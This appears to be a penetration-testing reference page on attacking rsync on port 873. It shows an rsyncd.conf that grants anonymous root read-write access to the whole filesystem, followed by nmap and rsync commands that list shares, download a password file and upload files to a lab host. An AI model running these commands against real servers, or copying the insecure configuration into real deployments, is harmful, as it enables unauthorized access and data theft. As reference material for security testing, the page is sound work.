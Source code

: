 ```yaml
---
description: >-
  Rsync is a utility for transferring and synchronizing files between two
  servers (usually Linux).
---
```


# 873 - RSYNC

example of Rsyncd.conf file that allows anonymous root access to the entire file system:

```text
motd file = /etc/Rsyncd.motd
lock file = /var/run/Rsync.lock
log file = /var/log/Rsyncd.log
pid file = /var/run/Rsyncd.pid

[files]
path = /
comment = Remote file share.
uid = 0
gid = 0
read only = no
list = yes
```

## enumeration

`nmap -p 873 192.168.0.1`

List directory

```text
rsync 192.168.1.171::
```

List sub directory contents

```text
rsync 192.168.1.171::files
```

List directories and files recursively

```text
rsync -r 192.168.1.171::files/tmp/
```

Download files

```text
rsync 192.168.1.171::files/home/test/mypassword.txt .
```

Download folders

```text
rsync -r 192.168.1.171::files/home/test/
```

Upload files

```text
rsync ./myfile.txt 192.168.1.171::files/home/test
```

Upload folders

```text
rsync -r ./myfolder 192.168.1.171::files/home/test
```

source:

[https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/](https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/)

